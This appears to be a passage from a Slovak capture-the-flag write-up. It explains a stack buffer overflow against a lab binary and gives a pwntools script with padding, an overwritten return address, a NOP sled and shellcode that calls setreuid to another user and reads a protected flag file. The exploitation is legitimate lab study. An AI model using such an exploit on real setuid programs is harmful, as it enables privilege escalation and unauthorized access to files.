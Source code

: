 ![](image-13.png)

Tu je return pointer v červenom a shellcode v zelenom. Medzi return pointerom a shellcode som si spravil NOP sled, aby som nemusel presne trafiť začiatok shellcode. 

Na vykonanie exploitu som použil nástroj pwntools a na tvorbu shellcode funkciu **shellcraft**.

```py
from pwn import *


padding = b"\x41" * 272
eip = p32(0xffffd470)
shellcode = asm(shellcraft.setreuid(1031) + shellcraft.cat('002-flag/flag.txt'))
nop = b"\x90" * 100

exploit = padding + eip + nop + shellcode

with open ('payload', 'wb') as f:
        f.write(exploit)
```

V kóde sa najprv nastaví EUID na 1031, čo je id používateľa, ktorý má práva k súboru a potom sa spraví cat 002-flag/flag.txt

![](image-14.png)
